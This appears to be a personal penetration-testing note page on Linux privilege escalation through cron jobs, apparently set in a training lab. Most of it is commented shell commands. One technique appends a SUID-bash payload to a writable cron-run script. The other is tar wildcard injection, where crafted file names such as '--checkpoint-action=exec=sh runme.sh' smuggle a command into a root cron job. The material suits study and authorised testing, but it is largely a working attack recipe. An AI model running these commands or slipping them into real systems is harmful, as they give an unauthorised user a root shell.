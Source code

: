 -- -
The main workflow here is to see what runs on a schedule from #cron or #systemd and then try to hijack it in some way. This can get creative :)
[[Dark Arts/Privesc/Linux/Enumeration/Cron Jobs|Enum]]
#### overwrite file
```bash
# lets say we found a scheduled task that looks like the following:
# * * * * * root overwrite.sh

# First, look at the PATH set to see where it looks for it, and lets say that path looks like the following:
# PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# so it checks the directories in that order. Look for any directory in that path that you can write to, in the example we can see it first looks through the user directory:
# /home/user
# that looks like a low privilege folder, so lets check it
ls -la /home/user

# that outputs:
# drwxr-xr-x 6 TCM user 4096 Jun 20 15:47 .

# This shows that we can write to that directory. This would also work if the overwrite.sh was writable by us. 

# so just simply make a malicious script, and output it to that location
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" >> /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh # only required if you write a new file, not necessary if you append to the file that already exists. 

# then just wait, after it gets run you can run your suid bit shell
/tmp/bash -p 
```
#### Wildcards
For this vector, you: 
- notice a script (or command) that is run via scheduled task. 
- the command uses a wild card in the command
- The script uses a command that uses a wild card
You may then be able to hijack the command being run with a wildcard to get it to hand you a shell. 
```bash
# for this example, we are going to see the following script in the crontab, but same process for if it's a direct command in crontab:
# * * * * * root /usr/local/bin/compress.sh

# it's an absolute path, so we need to see if the script can be manipulated, first check if you can overwrite it:
ls -la /usr/local/bin/compress.sh

# given the location, that is not likely. So next step is to read the script
cat /usr/local/bin/compress.sh

# and lets say we find the use of a wildcard by the following line in /usr/local/bin/compress.sh:
# cd /home/user
# tar czf /tmp/backup.tar.gz *

# again, you can also see that tar command with a wild card used directly in the crontab. Would be the same from here.

# create malicious script, for this example we write to /home/user
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh

# this part is specific to exploiting tar for a wild card
# create flag files in the directory where tar will be run.
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=exec=sh runme.sh'

# so when tar runs with a wild card, it picks up all the files in pwd, so we are placing files that are named valid tar flags, so when they are picked up, they are processed as flags for tar, so they will point to executing sh and running your malicious script, which since it is run as aroot owned cron job, it will run it as root and spit out the suid shell
```